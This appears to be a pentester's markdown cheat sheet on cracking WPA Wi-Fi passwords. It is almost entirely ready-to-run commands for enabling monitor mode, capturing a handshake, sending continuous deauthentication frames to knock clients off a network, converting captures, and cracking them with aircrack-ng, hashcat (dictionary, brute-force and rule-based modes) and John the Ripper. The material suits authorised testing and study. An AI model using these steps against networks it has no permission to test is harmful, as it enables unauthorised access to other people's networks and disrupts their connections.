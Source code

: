 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#wireless-cracking
## Capture Handshake

1. airmon-ng start wlan0
2. airodump-ng mon0 --write capture.cap -c 11
3. aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0

Convert pcap files for john and hashcat

/usr/lib/hashcat-utils/cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]
/usr/sbin/hccap2john
/usr/sbin/vncpcap2john
/usr/sbin/wpapcap2john


## Cracking Handshake with Aircrack

- aircrack-ng -w /usr/share/wordlist/fasttrack.txt 0001.cap

## Cracking Handshakes with Hashcat

- hashcat.exe -m 2500 capture.hccapx rockyou.txt (Dictionary Attack)
- hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d (Brute-Force)
- hashcat.exe -m 2500 -r rules/best64.rule capture.hccapx rockyou.txt (Rule-Based)

## Cracking Handshakes with John The Ripper

Did you run hccap2john?

- john --format=wpapsk --wordlist=/usr/share/wordlists/rockyou.txt crackmecap
- john --format=wpapsk-opencl --wordlist=/usr/share/wordlists/rockyou.txt crackmecap



Other Resources: 

https://github.com/lgandx/PCredz 